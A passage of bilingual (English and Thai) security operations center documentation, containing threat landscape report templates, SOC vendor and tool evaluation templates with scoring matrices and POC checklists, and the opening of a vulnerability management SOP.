        T1190[T1190 Exploit Public App]
    end
    subgraph "Execution"
        T1059[T1059 Command Line]
        T1204[T1204 User Execution]
    end
    subgraph "Persistence"
        T1053[T1053 Scheduled Task]
    end
    subgraph "C2"
        T1071[T1071 App Layer Protocol]
    end

    T1566 --> T1204
    T1204 --> T1059
    T1059 --> T1053
    T1053 --> T1071
```

> Replace with actual observed techniques. Include ATT&CK Navigator heatmap screenshot if available.

### 4b. Technique Frequency

| MITRE Technique | Count | Trend | Detection Status |
|:---|:---:|:---:|:---:|
| T1566 Phishing | _____ | ↑/↓ | ✅ Detected / ⚠️ Partial / ❌ No Rule |
| T1059 Command/Scripting | _____ | ↑/↓ | ✅ Detected / ⚠️ Partial / ❌ No Rule |
| T1078 Valid Accounts | _____ | ↑/↓ | ✅ Detected / ⚠️ Partial / ❌ No Rule |
| T1021 Remote Services | _____ | ↑/↓ | ✅ Detected / ⚠️ Partial / ❌ No Rule |
| ______________ | _____ | ↑/↓ | ✅ Detected / ⚠️ Partial / ❌ No Rule |

### 4c. Detection Gap Analysis

| Tactic | Techniques NOT Covered | Risk | Recommended Action |
|:---|:---|:---:|:---|
| ______________ | T______, T______ | 🔴/🟡 | ________________________ |
| ______________ | T______, T______ | 🔴/🟡 | ________________________ |

---

## Section 5: Regional & Regulatory Threats

### 5a. Thailand / ASEAN Specific Threats

| Threat | Target Sector | Source | SOC Action |
|:---|:---|:---|:---|
| ______________ | ______________ | [ThaiCERT/ASEAN CERT] | ________________________ |
| ______________ | ______________ | [ThaiCERT/ASEAN CERT] | ________________________ |

### 5b. Regulatory Updates

| Regulation | Update | Effective Date | Impact on SOC |
|:---|:---|:---:|:---|
| PDPA | ________________________ | ____-__-__ | ________________________ |
| BOT Cyber Resilience | ________________________ | ____-__-__ | ________________________ |
| SEC Thailand | ________________________ | ____-__-__ | ________________________ |
| NIST CSF 2.0 | ________________________ | ____-__-__ | ________________________ |

---

## Section 6: Recommendations & Action Items

### Immediate Actions (This Month)

| # | Action | Owner | Due Date | Status |
|:---:|:---|:---|:---:|:---:|
| 1 | ________________________________________________ | ______________ | ____-__-__ | ⬜/🔲/✅ |
| 2 | ________________________________________________ | ______________ | ____-__-__ | ⬜/🔲/✅ |
| 3 | ________________________________________________ | ______________ | ____-__-__ | ⬜/🔲/✅ |

### Strategic Recommendations (Next Quarter)

| # | Recommendation | Justification | Estimated Effort | Priority |
|:---:|:---|:---|:---:|:---:|
| 1 | ________________________________________________ | ________________________ | ___ person-days | P_ |
| 2 | ________________________________________________ | ________________________ | ___ person-days | P_ |

### Detection Rule Changes

| Action | Rule / Technique | Reason |
|:---|:---|:---|
| **Add** | ______________ | New threat observed |
| **Tune** | ______________ | High FP rate |
| **Disable** | ______________ | No longer relevant |

---

## Section 7: Threat Forecast

> Predict likely threats for the next 30–90 days based on current intelligence.

| # | Predicted Threat | Confidence | Basis | Preparedness |
|:---:|:---|:---:|:---|:---:|
| 1 | ________________________________________________ | High/Med/Low | ________________________ | ✅ Ready / ⚠️ Partial / ❌ Not Ready |
| 2 | ________________________________________________ | High/Med/Low | ________________________ | ✅ Ready / ⚠️ Partial / ❌ Not Ready |
| 3 | ________________________________________________ | High/Med/Low | ________________________ | ✅ Ready / ⚠️ Partial / ❌ Not Ready |

---

## Intelligence Sources

| Source | Type | Frequency | URL/Access |
|:---|:---|:---:|:---|
| CISA Alerts | Government | Real-time | https://www.cisa.gov/known-exploited-vulnerabilities |
| ThaiCERT | Government/Regional | Weekly | https://www.thaicert.or.th |
| MITRE ATT&CK | Framework | Quarterly | https://attack.mitre.org |
| AlienVault OTX | Community | Real-time | https://otx.alienvault.com |
| VirusTotal | Commercial | Real-time | https://www.virustotal.com |
| Abuse.ch | Community | Real-time | https://abuse.ch |
| [Vendor TI Feed] | Commercial | ____________ | ______________ |

---

## Related Documents

-   [Threat Hunting Playbook](../05_Incident_Response/Threat_Hunting_Playbook.en.md) — Proactive threat hunting
-   [TI Feeds Integration](TI_Feeds_Integration.en.md) — Feed configuration
-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — Performance measurement
-   [KPI Dashboard Template](KPI_Dashboard_Template.en.md) — Monthly reporting
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — Category taxonomy
-   [Log Source Matrix](Log_Source_Matrix.en.md) — Detection data sources


---

## File: 06_Operations_Management/Threat_Landscape_Report.th.md

# Threat Landscape Report Template / แม่แบบรายงานภูมิทัศน์ภัยคุกคาม

**รหัสเอกสาร**: IR-SOP-018
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> แม่แบบ **รายไตรมาส/รายเดือน** สำหรับสร้างรายงานภูมิทัศน์ภัยคุกคาม เพื่อ brief ผู้บริหาร, สนับสนุนการลงทุน, และจัดลำดับการป้องกัน

---

## ข้อมูลรายงาน

| ฟิลด์ | ค่า |
|:---|:---|
| **ช่วงเวลารายงาน** | [เดือน/ไตรมาส] [ปี] |
| **จัดทำโดย** | [SOC Lead / Threat Intel Analyst] |
| **ผู้รับ** | [CISO, ทีม SOC, ผู้บริหาร IT] |
| **การจัดชั้นความลับ** | [ใช้ภายใน / ลับ] |
| **รายงานฉบับถัดไป** | [วันที่] |

---

## สรุปสำหรับผู้บริหาร

> เขียน 3–5 ประโยคสรุปพัฒนาการภัยคุกคามสำคัญในรอบนี้

_________________________________________________________________________________
_________________________________________________________________________________

### ประเด็นสำคัญ

| # | ข้อค้นพบ | ระดับเสี่ยง | การดำเนินการ |
|:---:|:---|:---:|:---|
| 1 | ________________________________________________ | 🔴/🟠/🟡 | ________________________ |
| 2 | ________________________________________________ | 🔴/🟠/🟡 | ________________________ |
| 3 | ________________________________________________ | 🔴/🟠/🟡 | ________________________ |

---

## ส่วนที่ 1: ภูมิทัศน์ภัยคุกคามระดับโลก

### 1a. พัฒนาการสำคัญ

| # | พัฒนาการ | แหล่ง | ความเกี่ยวข้องกับเรา |
|:---:|:---|:---|:---:|
| 1 | ________________________________________________ | [CISA/CERT/News] | 🔴 สูง / 🟡 กลาง / 🟢 ต่ำ |
| 2 | ________________________________________________ | [CISA/CERT/News] | 🔴 สูง / 🟡 กลาง / 🟢 ต่ำ |

### 1b. กลุ่มผู้โจมตีที่ยังเคลื่อนไหว

| กลุ่ม | แหล่งที่มา | เป้าหมายหลัก | TTPs | ความเกี่ยวข้อง |
|:---|:---|:---|:---|:---:|
| ______________ | [รัฐ/อาชญากร/Hacktivist] | [ภาคส่วน/ภูมิภาค] | T______ | 🔴/🟡/🟢 |
| ______________ | [รัฐ/อาชญากร/Hacktivist] | [ภาคส่วน/ภูมิภาค] | T______ | 🔴/🟡/🟢 |

### 1c. ภัยคุกคามเฉพาะอุตสาหกรรม

| ภัยคุกคาม | อุตสาหกรรมที่ได้รับผลกระทบ | ช่องทางโจมตี | ความเสี่ยงของเรา |
|:---|:---|:---|:---:|
| ______________ | ______________ | ______________ | 🔴/🟡/🟢 |

---

## ส่วนที่ 2: ภูมิทัศน์ช่องโหว่

### 2a. ช่องโหว่วิกฤต (รอบนี้)

| CVE | CVSS | ผลิตภัณฑ์ | ถูกใช้จริง? | สถานะของเรา |
|:---|:---:|:---|:---:|:---:|
| CVE-____-_____ | __._ | ______________ | ✅ ใช่ / ❌ ไม่ | ✅ ปะแก้แล้ว / ⚠️ กำลังทำ / ❌ มีช่องโหว่ |
| CVE-____-_____ | __._ | ______________ | ✅ ใช่ / ❌ ไม่ | ✅ ปะแก้แล้ว / ⚠️ กำลังทำ / ❌ มีช่องโหว่ |

### 2b. สรุป Patch Compliance

| หมวด | Assets ทั้งหมด | Patched (30 วัน) | % Compliant |
|:---|:---:|:---:|:---:|
| Servers | _____ | _____ | ___% |
| Workstations | _____ | _____ | ___% |
| Network Devices | _____ | _____ | ___% |
| Cloud Resources | _____ | _____ | ___% |

---

## ส่วนที่ 3: Threat Intelligence จาก SOC

### 3a. ภัยคุกคามที่ SOC ตรวจพบ

| หมวด | Incidents | แนวโน้ม | Technique หลัก | ตัวอย่าง |
|:---|:---:|:---:|:---|:---|
| Phishing | _____ | ↑/↓ _% | T1566.___ | ________________________ |
| Malware | _____ | ↑/↓ _% | T1059.___ | ________________________ |
| Unauthorized Access | _____ | ↑/↓ _% | T1110.___ | ________________________ |
| Cloud | _____ | ↑/↓ _% | T1078.___ | ________________________ |

### 3b. สถิติ IOC

| ประเภท IOC | รับเข้า | พบใน Logs | อัตรา Match | Actionable |
|:---|:---:|:---:|:---:|:---:|
| IP Addresses | _____ | _____ | ___% | _____ |
| Domains | _____ | _____ | ___% | _____ |
| File Hashes | _____ | _____ | ___% | _____ |

### 3c. ประสิทธิภาพ TI Feed

| แหล่ง Feed | IOCs ที่ได้รับ | Match จริง | FP Rate | คะแนน |
|:---|:---:|:---:|:---:|:---:|
| ______________ | _____ | _____ | ___% | ★★★★★ |
| ______________ | _____ | _____ | ___% | ★★★★☆ |

---

## ส่วนที่ 4: MITRE ATT&CK Analysis

### 4a. Techniques ที่สังเกตพบ

| MITRE Technique | จำนวน | แนวโน้ม | สถานะ Detection |
|:---|:---:|:---:|:---:|
| T1566 Phishing | _____ | ↑/↓ | ✅ ตรวจได้ / ⚠️ บางส่วน / ❌ ไม่มี Rule |
| T1059 Command/Scripting | _____ | ↑/↓ | ✅ ตรวจได้ / ⚠️ บางส่วน / ❌ ไม่มี Rule |
| T1078 Valid Accounts | _____ | ↑/↓ | ✅ ตรวจได้ / ⚠️ บางส่วน / ❌ ไม่มี Rule |

### 4b. Detection Gap Analysis

| Tactic | Techniques ที่ไม่ครอบคลุม | ความเสี่ยง | การดำเนินการ |
|:---|:---|:---:|:---|
| ______________ | T______, T______ | 🔴/🟡 | ________________________ |

---

## ส่วนที่ 5: ภัยคุกคามระดับภูมิภาค & กฎระเบียบ

### 5a. ภัยคุกคามเฉพาะ ไทย / ASEAN

| ภัยคุกคาม | ภาคส่วนเป้าหมาย | แหล่ง | การดำเนินการ SOC |
|:---|:---|:---|:---|
| ______________ | ______________ | [ThaiCERT/ASEAN CERT] | ________________________ |
| ______________ | ______________ | [ThaiCERT/ASEAN CERT] | ________________________ |

### 5b. อัปเดตกฎระเบียบ

| กฎระเบียบ | อัปเดต | มีผลบังคับ | ผลกระทบต่อ SOC |
|:---|:---|:---:|:---|
| PDPA | ________________________ | ____-__-__ | ________________________ |
| ธปท. Cyber Resilience | ________________________ | ____-__-__ | ________________________ |
| กลต. | ________________________ | ____-__-__ | ________________________ |

---

## ส่วนที่ 6: คำแนะนำ & Action Items

### การดำเนินการทันที (เดือนนี้)

| # | การดำเนินการ | ผู้รับผิดชอบ | กำหนด | สถานะ |
|:---:|:---|:---|:---:|:---:|
| 1 | ________________________________________________ | ______________ | ____-__-__ | ⬜/🔲/✅ |
| 2 | ________________________________________________ | ______________ | ____-__-__ | ⬜/🔲/✅ |

### คำแนะนำเชิงกลยุทธ์ (ไตรมาสหน้า)

| # | คำแนะนำ | เหตุผล | ความพยายาม | ลำดับ |
|:---:|:---|:---|:---:|:---:|
| 1 | ________________________________________________ | ________________________ | ___ person-days | P_ |

### เปลี่ยนแปลง Detection Rules

| การดำเนินการ | Rule / Technique | เหตุผล |
|:---|:---|:---|
| **เพิ่ม** | ______________ | ภัยคุกคามใหม่ |
| **ปรับ** | ______________ | FP สูง |
| **ปิด** | ______________ | ไม่เกี่ยวข้องแล้ว |

---

## ส่วนที่ 7: การคาดการณ์ภัยคุกคาม

| # | ภัยคุกคามที่คาดว่าจะเกิด | ความมั่นใจ | พื้นฐาน | ความพร้อม |
|:---:|:---|:---:|:---|:---:|
| 1 | ________________________________________________ | สูง/กลาง/ต่ำ | ________________________ | ✅ พร้อม / ⚠️ บางส่วน / ❌ ยังไม่พร้อม |
| 2 | ________________________________________________ | สูง/กลาง/ต่ำ | ________________________ | ✅ พร้อม / ⚠️ บางส่วน / ❌ ยังไม่พร้อม |

---

## แหล่ง Intelligence

| แหล่ง | ประเภท | ความถี่ | URL |
|:---|:---|:---:|:---|
| CISA Alerts | รัฐบาล | Real-time | https://www.cisa.gov/known-exploited-vulnerabilities |
| ThaiCERT | รัฐบาล/ภูมิภาค | รายสัปดาห์ | https://www.thaicert.or.th |
| MITRE ATT&CK | Framework | รายไตรมาส | https://attack.mitre.org |
| AlienVault OTX | ชุมชน | Real-time | https://otx.alienvault.com |

---

## เทมเพลตรายงาน Threat Landscape

### ส่วน Executive Summary

| ตัวชี้วัด | เดือนก่อน | เดือนนี้ | แนวโน้ม |
|:---|:---:|:---:|:---:|
| Total Threats Tracked | [XX] | [XX] | ↑/↓ |
| New Threat Actors | [XX] | [XX] | ↑/↓ |
| Critical Vulnerabilities | [XX] | [XX] | ↑/↓ |
| Campaigns Targeting Our Sector | [XX] | [XX] | ↑/↓ |

### Threat Actor Tracking

| Actor | ประเภท | เป้าหมาย | TTPs หลัก | Risk ต่อเรา |
|:---|:---|:---|:---|:---:|
| [Actor 1] | APT | Financial sector | T1566, T1059 | 🔴 |
| [Actor 2] | Ransomware gang | Healthcare | T1486, T1021 | 🟡 |
| [Actor 3] | Hacktivist | Government | T1498, T1491 | 🟢 |

### คำแนะนำเชิงปฏิบัติ

| ลำดับ | คำแนะนำ | ผู้รับผิดชอบ | กำหนด |
|:---:|:---|:---|:---:|
| 1 | อัปเดต detection rules สำหรับ [campaign] | DetEng | [วันที่] |
| 2 | Patch CVE-YYYY-NNNNN บนระบบ [X] | IT Ops | [วันที่] |
| 3 | จัด awareness training เรื่อง [topic] | HR | [วันที่] |

### Threat Actor Tracking Template

| Actor Group | Origin | Target Sector | TTPs | Risk Level |
|:---|:---|:---|:---|:---|
| APT-XX | Nation-state | Finance, Gov | Spearphishing | Critical |
| FIN-YY | Criminal | Retail, Health | Ransomware | High |
| Hacktivist | Ideological | Any | DDoS, Defacement | Medium |

### Quarterly Trend Analysis

| Metric | Q ก่อนหน้า | Q ปัจจุบัน | Trend |
|:---|:---|:---|:---|
| Phishing campaigns | 45 | 62 | ↑ 38% |
| Ransomware incidents | 12 | 8 | ↓ 33% |
| Zero-day exploits | 3 | 5 | ↑ 67% |
| Supply chain attacks | 2 | 4 | ↑ 100% |

### Report Distribution

| Audience | Format | Frequency |
|:---|:---|:---|
| SOC Team | Full report | Monthly |
| Management | Executive summary | Quarterly |
| Board | Risk dashboard | Semi-annual |

### Report Sections

| Section | Owner |
|:---|:---|
| Threat actors | TI Analyst |
| Trends | SOC Manager |

## เอกสารที่เกี่ยวข้อง

-   [Threat Hunting Playbook](../05_Incident_Response/Threat_Hunting_Playbook.en.md) — การล่าภัยคุกคาม
-   [TI Feeds Integration](TI_Feeds_Integration.en.md) — การตั้งค่า feed
-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — ตัวชี้วัด
-   [KPI Dashboard Template](KPI_Dashboard_Template.en.md) — รายงานรายเดือน
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — อนุกรมวิธาน
-   [Log Source Matrix](Log_Source_Matrix.en.md) — แหล่ง detection


---

## File: 06_Operations_Management/Vendor_Evaluation.en.md

# SOC Vendor & Tool Evaluation Template

> **Document ID:** VENDOR-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager / CISO

---

## Purpose

Provides a structured framework for evaluating and comparing SOC tools and vendor solutions. Use this template when considering new SIEM, EDR, SOAR, TI, or any security tool.

---

## Evaluation Process

```mermaid
graph LR
    Need[1. Define Need] --> Research[2. Research Options]
    Research --> Shortlist[3. Shortlist 3-5]
    Shortlist --> POC[4. POC / Trial]
    POC --> Score[5. Score & Compare]
    Score --> Decide[6. Decision & Contract]
```

---

## Evaluation Criteria (Scoring Matrix)

Score each criterion **1–5** (1 = Poor, 5 = Excellent)

### Core Capabilities

| # | Criterion | Weight | Vendor A | Vendor B | Vendor C |
|:---:|:---|:---:|:---:|:---:|:---:|
| 1 | **Detection accuracy** (true positive rate) | 3× | /5 | /5 | /5 |
| 2 | **Log ingestion capacity** (EPS/GB per day) | 3× | /5 | /5 | /5 |
| 3 | **Query performance** (search speed) | 2× | /5 | /5 | /5 |
| 4 | **Alert customization** (rule creation flexibility) | 2× | /5 | /5 | /5 |
| 5 | **MITRE ATT&CK coverage** (built-in detections) | 2× | /5 | /5 | /5 |
| 6 | **Dashboard & visualization** quality | 1× | /5 | /5 | /5 |

### Integration & Compatibility

| # | Criterion | Weight | Vendor A | Vendor B | Vendor C |
|:---:|:---|:---:|:---:|:---:|:---:|
| 7 | **API availability** (REST API, webhooks) | 2× | /5 | /5 | /5 |
| 8 | **Integration with existing stack** | 3× | /5 | /5 | /5 |
| 9 | **Log source support** (OS, cloud, network, app) | 2× | /5 | /5 | /5 |
| 10 | **SOAR integration** (playbook automation) | 2× | /5 | /5 | /5 |

### Operations & Management

| # | Criterion | Weight | Vendor A | Vendor B | Vendor C |
|:---:|:---|:---:|:---:|:---:|:---:|
| 11 | **Ease of deployment** | 1× | /5 | /5 | /5 |
| 12 | **Administration overhead** | 2× | /5 | /5 | /5 |
| 13 | **Scalability** | 2× | /5 | /5 | /5 |
| 14 | **Documentation quality** | 1× | /5 | /5 | /5 |
| 15 | **Training resources** (academy, videos, docs) | 1× | /5 | /5 | /5 |

### Support & Vendor

| # | Criterion | Weight | Vendor A | Vendor B | Vendor C |
|:---:|:---|:---:|:---:|:---:|:---:|
| 16 | **Support SLA** (response time, 24/7) | 2× | /5 | /5 | /5 |
| 17 | **Vendor stability** (market presence, funding) | 1× | /5 | /5 | /5 |
| 18 | **Local support** (Thailand office/partner) | 2× | /5 | /5 | /5 |
| 19 | **Community & ecosystem** | 1× | /5 | /5 | /5 |

### Cost

| # | Criterion | Weight | Vendor A | Vendor B | Vendor C |
|:---:|:---|:---:|:---:|:---:|:---:|
| 20 | **License cost** (per node/EPS/GB) | 3× | /5 | /5 | /5 |
| 21 | **Implementation cost** | 2× | /5 | /5 | /5 |
| 22 | **Ongoing maintenance cost** | 2× | /5 | /5 | /5 |
| 23 | **Hidden costs** (storage, overages, add-ons) | 2× | /5 | /5 | /5 |
| 24 | **Contract flexibility** (term, exit clause) | 1× | /5 | /5 | /5 |

---

## Total Score Calculation

```
Weighted Score = Σ (Score × Weight) for each criterion
Max Score = Σ (5 × Weight) = 5 × total_weight
Final % = (Weighted Score / Max Score) × 100

Recommendation thresholds:
  ≥ 80% → Strong recommendation
  60-79% → Acceptable with caveats
  < 60% → Not recommended
```

---

## POC Checklist

During the Proof-of-Concept trial (recommend 2–4 weeks):

```
□ Deploy in test/staging environment
□ Ingest real log data (anonymized if needed)
□ Create 5 detection rules
□ Test alert workflow end-to-end
□ Measure query performance vs current solution
□ Test API integrations with existing tools
□ Evaluate admin UI and daily workflow
□ Test at expected data volume (EPS/GB)
□ Get feedback from 2+ analysts who used it daily
□ Document any bugs or limitations found
□ Verify support response time (open a test ticket)
```

---

## Cost Comparison Template

| Cost Item | Vendor A | Vendor B | Vendor C |
|:---|---:|---:|---:|
| Year 1 License | ฿___ | ฿___ | ฿___ |
| Implementation/Professional Services | ฿___ | ฿___ | ฿___ |
| Training | ฿___ | ฿___ | ฿___ |
| Infrastructure (servers/cloud) | ฿___ | ฿___ | ฿___ |
| **Year 1 Total** | **฿___** | **฿___** | **฿___** |
| Year 2+ Annual (license + support) | ฿___ | ฿___ | ฿___ |
| **3-Year TCO** | **฿___** | **฿___** | **฿___** |

---

## Decision Record

| Field | Detail |
|:---|:---|
| **Tool category** | (SIEM / EDR / SOAR / TI / Other) |
| **Vendors evaluated** | Vendor A, Vendor B, Vendor C |
| **Winner** | ___________ |
| **Key reasons** | (top 3 differentiators) |
| **Risks/concerns** | (known limitations to monitor) |
| **Decision date** | YYYY-MM-DD |
| **Approved by** | SOC Manager / CISO |
| **Contract term** | ___ years |
| **Go-live target** | YYYY-MM-DD |

---

## Total Cost of Ownership (TCO) Model

### 3-Year TCO Comparison Template

| Cost Category | Vendor A | Vendor B | Vendor C |
|:---|:---:|:---:|:---:|
| **Year 1** | | | |
| License/subscription | $ | $ | $ |
| Implementation/deployment | $ | $ | $ |
| Training | $ | $ | $ |
| Hardware (if on-prem) | $ | $ | $ |
| **Year 2** | | | |
| License renewal | $ | $ | $ |
| Support/maintenance | $ | $ | $ |
| Staff time for management | $ | $ | $ |
| **Year 3** | | | |
| License renewal | $ | $ | $ |
| Upgrade costs | $ | $ | $ |
| **Total 3-Year TCO** | **$** | **$** | **$** |
| **Cost per protected endpoint/user** | $ | $ | $ |

## Proof of Concept (POC) Checklist

### Pre-POC
```
□ Define success criteria (minimum 5 measurable criteria)
□ Identify test environment (isolated lab or staging)
□ Assign POC lead and evaluation team
□ Set POC duration (recommended: 2-4 weeks)
□ Prepare test data and scenarios
□ Sign NDA and POC agreement
```

### During POC
```
□ Install/configure per vendor guidance
□ Test integration with existing tools (SIEM, EDR, SOAR)
□ Run detection tests (Atomic Red Team scenarios)
□ Measure false positive rate
□ Test alert response time
□ Evaluate UI/UX for daily analyst workflows
□ Test API capabilities
□ Measure resource consumption (CPU, RAM, storage)
□ Test at expected data volume
```

### Post-POC
```
□ Score against success criteria
□ Collect feedback from all evaluators
□ Compare against current solution (if upgrading)
□ Calculate actual vs. estimated TCO
□ Present findings to SOC Manager / CISO
□ Make recommendation with justification
```

## Related Documents

- [Technology Stack Selection Guide](../01_SOC_Fundamentals/Technology_Stack.en.md)
- [Budget & Staffing](../01_SOC_Fundamentals/Budget_Staffing.en.md)
- [Change Management SOP](Change_Management.en.md)


---

## File: 06_Operations_Management/Vendor_Evaluation.th.md

# แม่แบบประเมินเครื่องมือ SOC

> **รหัสเอกสาร:** VENDOR-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Manager / CISO

---

## ขั้นตอนการประเมิน

```mermaid
graph LR
    A[1. กำหนดความต้องการ] --> B[2. ค้นหาตัวเลือก]
    B --> C[3. คัดเหลือ 3-5]
    C --> D[4. POC / ทดลอง]
    D --> E[5. ให้คะแนน]
    E --> F[6. ตัดสินใจ]
```

---

## เกณฑ์ให้คะแนน (1–5)

### ความสามารถหลัก (Weight สูง)
| # | เกณฑ์ | น้ำหนัก |
|:---:|:---|:---:|
| 1 | ความแม่นยำ detection | 3× |
| 2 | รับ log ได้ (EPS/GB ต่อวัน) | 3× |
| 3 | ความเร็ว query | 2× |
| 4 | ปรับแต่ง rule ได้ | 2× |
| 5 | MITRE ATT&CK coverage | 2× |

### Integration
| # | เกณฑ์ | น้ำหนัก |
|:---:|:---|:---:|
| 6 | API (REST, webhooks) | 2× |
| 7 | เข้ากับ stack ปัจจุบัน | 3× |
| 8 | รองรับ log source | 2× |
| 9 | เชื่อม SOAR ได้ | 2× |

### ต้นทุน
| # | เกณฑ์ | น้ำหนัก |
|:---:|:---|:---:|
| 10 | ค่า license | 3× |
| 11 | ค่า implement | 2× |
| 12 | ค่า maintain ต่อเนื่อง | 2× |
| 13 | ค่าใช้จ่ายแอบแฝง | 2× |

### Support
| # | เกณฑ์ | น้ำหนัก |
|:---:|:---|:---:|
| 14 | Support SLA (24/7?) | 2× |
| 15 | มี office/partner ในไทย | 2× |
| 16 | เสถียรภาพ vendor | 1× |

---

## คำนวณคะแนน

```
คะแนนรวม = Σ (คะแนน × น้ำหนัก)
≥ 80% → แนะนำอย่างยิ่ง
60-79% → รับได้ มีข้อจำกัด
< 60% → ไม่แนะนำ
```

---

## Checklist POC (2–4 สัปดาห์)

```
□ Deploy ในสภาพแวดล้อมทดสอบ
□ ใส่ log จริง
□ สร้าง 5 detection rules
□ ทดสอบ alert workflow ตลอดสาย
□ วัดความเร็ว query
□ ทดสอบ API กับเครื่องมือที่มี
□ ให้ analyst 2+ คนใช้จริง แล้วเก็บ feedback
□ เปิด ticket ทดสอบ support response time
```

---

## ตารางเปรียบเทียบต้นทุน

| รายการ | Vendor A | Vendor B | Vendor C |
|:---|---:|---:|---:|
| License ปี 1 | ฿___ | ฿___ | ฿___ |
| Implement | ฿___ | ฿___ | ฿___ |
| Training | ฿___ | ฿___ | ฿___ |
| **รวมปี 1** | **฿___** | **฿___** | **฿___** |
| ปี 2+ ต่อปี | ฿___ | ฿___ | ฿___ |
| **TCO 3 ปี** | **฿___** | **฿___** | **฿___** |

---

## Evaluation Scorecard

| เกณฑ์ | น้ำหนัก | Vendor A | Vendor B | Vendor C |
|:---|:---:|:---:|:---:|:---:|
| Functionality | 30% | [X]/5 | [X]/5 | [X]/5 |
| Integration | 20% | [X]/5 | [X]/5 | [X]/5 |
| Ease of Use | 15% | [X]/5 | [X]/5 | [X]/5 |
| Support | 15% | [X]/5 | [X]/5 | [X]/5 |
| Cost (TCO 3yr) | 20% | [X]/5 | [X]/5 | [X]/5 |
| **Total** | 100% | [XX] | [XX] | [XX] |

## POC (Proof of Concept) Checklist

| # | Test Case | ผลลัพธ์ที่คาดหวัง | ผ่าน? |
|:---:|:---|:---|:---:|
| 1 | Log ingestion ≥ 500 EPS | ไม่มี data loss | ☐ |
| 2 | Detection rule deployment | Rule trigger ภายใน 5 นาที | ☐ |
| 3 | API integration (SIEM↔SOAR) | Bidirectional data flow | ☐ |
| 4 | Dashboard performance | Load < 3 วินาที | ☐ |
| 5 | Fail-over / HA test | Auto-failover < 5 นาที | ☐ |

## Negotiation Checklist

- [ ] Volume discount สำหรับ multi-year
- [ ] Free training included
- [ ] SLA ที่มี penalty clause
- [ ] Data portability clause (exit strategy)
- [ ] Right to audit (security)
- [ ] PDPA-compliant DPA signed

### Vendor Comparison Template

| Criteria | Weight | Vendor A | Vendor B | Vendor C |
|:---|:---|:---|:---|:---|
| Features | 30% | 4/5 | 3/5 | 5/5 |
| Cost (TCO) | 25% | 3/5 | 5/5 | 2/5 |
| Support | 20% | 5/5 | 3/5 | 4/5 |
| Integration | 15% | 4/5 | 4/5 | 3/5 |
| Security | 10% | 5/5 | 4/5 | 5/5 |

### POC Timeline Template

| Phase | Duration | Activities |
|:---|:---|:---|
| Setup | 1 week | Install + config |
| Testing | 2 weeks | Use case validation |
| Review | 1 week | Report + decision |

## โมเดล Total Cost of Ownership (TCO)

### เปรียบเทียบ TCO 3 ปี

| หมวดค่าใช้จ่าย | Vendor A | Vendor B | Vendor C |
|:---|:---:|:---:|:---:|
| **ปีที่ 1** | | | |
| License/subscription | ฿ | ฿ | ฿ |
| Implementation/deployment | ฿ | ฿ | ฿ |
| ฝึกอบรม | ฿ | ฿ | ฿ |
| Hardware (ถ้า on-prem) | ฿ | ฿ | ฿ |
| **ปีที่ 2** | | | |
| License renewal | ฿ | ฿ | ฿ |
| Support/maintenance | ฿ | ฿ | ฿ |
| เวลาบุคลากรจัดการ | ฿ | ฿ | ฿ |
| **ปีที่ 3** | | | |
| License renewal | ฿ | ฿ | ฿ |
| ค่า upgrade | ฿ | ฿ | ฿ |
| **TCO 3 ปี รวม** | **฿** | **฿** | **฿** |

## Checklist Proof of Concept (POC)

### ก่อน POC
```
□ กำหนด success criteria (ขั้นต่ำ 5 เกณฑ์วัดได้)
□ ระบุ test environment (lab แยกหรือ staging)
□ มอบหมาย POC lead และทีมประเมิน
□ กำหนดระยะ POC (แนะนำ: 2-4 สัปดาห์)
□ เตรียมข้อมูลทดสอบและสถานการณ์
□ เซ็น NDA และสัญญา POC
```

### ระหว่าง POC
```
□ ติดตั้ง/ตั้งค่าตามแนะนำ vendor
□ ทดสอบ integration กับ tools ที่มี (SIEM, EDR, SOAR)
□ รัน detection tests (Atomic Red Team scenarios)
□ วัด false positive rate
□ ทดสอบ alert response time
□ ประเมิน UI/UX สำหรับ workflow analyst ประจำวัน
□ ทดสอบ API capabilities
□ วัด resource consumption (CPU, RAM, storage)
```

### หลัง POC
```
□ ให้คะแนนตาม success criteria
□ รวบรวม feedback จากทีมประเมิน
□ เปรียบเทียบกับ solution ปัจจุบัน
□ คำนวณ TCO จริง vs. ประมาณ
□ นำเสนอต่อ SOC Manager / CISO
□ ให้ recommendation พร้อมเหตุผล
```

## เอกสารที่เกี่ยวข้อง

- [คู่มือเลือกเครื่องมือ](../01_SOC_Fundamentals/Technology_Stack.th.md)
- [งบประมาณและจัดคน](../01_SOC_Fundamentals/Budget_Staffing.th.md)
- [SOP จัดการเปลี่ยนแปลง](Change_Management.th.md)


---

## File: 06_Operations_Management/Vulnerability_Management.en.md

# Vulnerability Management SOP

**Document ID**: OPS-SOP-020
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> SOC procedures for **vulnerability scanning, prioritization, tracking, and remediation validation**. Integrates with patching teams, IT operations, and risk management to ensure vulnerabilities are addressed within SLA.

---

## Vulnerability Management Lifecycle

```mermaid
graph LR
    A[1. Discover] --> B[2. Assess]
    B --> C[3. Prioritize]
    C --> D[4. Remediate]
    D --> E[5. Verify]
    E --> F[6. Report]
    F --> A

    style A fill:#3b82f6,color:#fff
    style C fill:#f97316,color:#fff
    style E fill:#22c55e,color:#fff
```

---

## Scanning Schedule

| Scan Type | Scope | Frequency | Tool | Owner |
|:---|:---|:---:|:---|:---|
| **Network vulnerability** | All IP ranges | Weekly | Nessus / Qualys / OpenVAS | Vuln Management |
| **Web application** | All web apps | Monthly | Burp Suite / OWASP ZAP | AppSec |
| **Cloud posture** | AWS / Azure / GCP | Daily | CSPM tool | Cloud Security |
| **Container images** | CI/CD pipeline | Per build | Trivy / Grype | DevSecOps |
| **Configuration audit** | Servers, endpoints | Monthly | CIS Benchmarks | IT Operations |
| **AD/Identity** | Active Directory | Monthly | PingCastle / BloodHound | Identity team |
| **External attack surface** | Public-facing assets | Weekly | EASM tool | SOC |

---

## Severity Classification (CVSS + Context)

### Base CVSS → SOC Priority

| CVSS Score | Base Severity | SOC Priority | Remediation SLA |
